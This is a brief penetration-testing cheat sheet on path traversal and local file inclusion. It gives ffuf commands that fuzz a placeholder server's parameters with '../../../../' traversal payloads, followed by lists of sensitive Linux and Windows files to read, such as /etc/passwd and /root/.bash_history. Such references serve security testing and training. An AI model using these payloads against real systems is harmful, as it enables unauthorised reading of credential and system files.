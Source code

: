 # Path traversal

Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.

---

Fuzz Page Parameters

```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

Fuzz LFI payloads

```sh
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287 
```

Fuzz webroot path

```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287 
```

Fuzz server configurations

```sh
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287 
```

---

Fichiers de système d'exploitation courants a utiliser.

**Linux**

```sh
/etc/issue
/etc/passwd
/etc/os-release
/proc/version
/etc/profile
/root/.bash_history
/var/log/dmessage
/var/mail/root
```

**Windows**

```sh
c:\boot.ini
../../../../boot.ini
../../../../windows/win.ini
```


